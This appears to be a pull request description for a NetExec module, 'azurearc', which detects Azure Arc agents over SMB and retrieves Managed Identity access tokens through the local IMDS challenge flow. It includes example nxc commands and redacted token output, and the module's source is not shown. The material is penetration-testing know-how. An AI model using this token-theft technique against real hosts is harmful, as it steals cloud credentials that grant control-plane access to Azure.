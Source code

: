 New module, **`azurearc`**, which detects whether a Windows host is Azure Arc–enabled and, if so, retrieves a **Managed Identity access token** from the local Arc IMDS endpoint using the documented 401 challenge → `.key` file → second request flow.

## Behavior:
Presence check via SMB listing of:
C:\Program Files\AzureConnectedMachineAgent\*
C:\Program Files (x86)\AzureConnectedMachineAgent\*

Token retrieval executed locally on target with PowerShell:
1. GET http://localhost:40342/metadata/identity/oauth2/token?resource=...&api-version=...
→ expect 401 with WWW-Authenticate: Basic realm="<path to .key>"
Read .key contents (local admin privileges required)
2. second GET with Authorization: Basic <key>.
Write JSON to outfile, fetch via SMB, delete outfile.


- **Protocols:** SMB (requires administrative privileges)
- **Capabilities:**
  - **CHECK mode:** enumerate presence of the Azure Connected Machine Agent (Arc) by listing well-known install paths
  - **Default mode:** perform the IMDS challenge/response locally on the target and return the JSON containing the `access_token`
- **Use case:** Quickly map Arc deployment across estate and retrieve a cloud-scoped token for Azure control-plane actions during engagements.

---

## Screenshot
<img width="1201" height="450" alt="2025-10-05_16h20_40" src="https://github.com/user-attachments/assets/8b824c35-7595-43f1-90f1-627bb9962712" />

**Presence check only (Arc installed)**
nxc smb 192.168.1.100 -u USER -p 'PASS' -M azurearc -o CHECK=true
[+] Azure Arc agent appears to be installed

**Presence check only (Arc not installed)**
nxc smb 192.168.1.101 -u USER -p 'PASS' -M azurearc -o CHECK=true
[-] Azure Arc agent not found

**Dump token (success)**
nxc smb 192.168.1.100 -u USER -p 'PASS' -M azurearc
[*] Attempting to retrieve Azure Arc Managed Identity access token
[+] Managed Identity token retrieved
{
"access_token":"eyJhbGciOi...<redacted>...",
"expires_on":"1730812345",
"token_type":"Bearer",
"resource":"https://management.azure.com
"
}

# Setup guide for the review
git clone https://github.com/Pennyw0rth/NetExec.git

## Add the module file at:
nxc/modules/azurearc.py


# Run from source against a lab target
* python -m nxc.netexec smb 192.168.1.100 -u USER -p 'PASS' -M azurearc -o CHECK=true
* python -m nxc.netexec smb 192.168.1.100 -u USER -p 'PASS' -M azurearc
